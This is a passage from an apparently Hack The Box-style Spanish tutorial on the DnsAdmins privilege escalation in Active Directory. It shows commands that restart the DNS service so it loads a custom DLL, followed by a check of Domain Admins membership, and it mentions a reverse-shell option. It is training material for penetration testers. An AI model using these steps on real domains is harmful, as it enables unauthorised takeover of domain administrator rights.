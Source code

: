 #### Detener el servicio DNS

Después de confirmar estos permisos, podemos emitir los siguientes comandos para detener e iniciar el servicio.

  Dnsadmins

```cmd-session
C:\htb> sc stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
```

El servicio DNS intentará comenzar y ejecutar nuestra DLL personalizada, pero si verificamos el estado, mostrará que no pudo comenzar correctamente (más sobre esto más adelante).

#### Comenzando el servicio DNS

  Dnsadmins

```cmd-session
C:\htb> sc start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 6960
        FLAGS              :
```

#### Confirmando la membresía del grupo

Si todo va según lo planeado, nuestra cuenta se agregará al grupo de administradores de dominio o recibirá un shell inverso si se hizo nuestra DLL personalizada para devolvernos una conexión.

  DnsAdmins

```cmd-session
C:\htb> net group "Domain Admins" /dom

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

---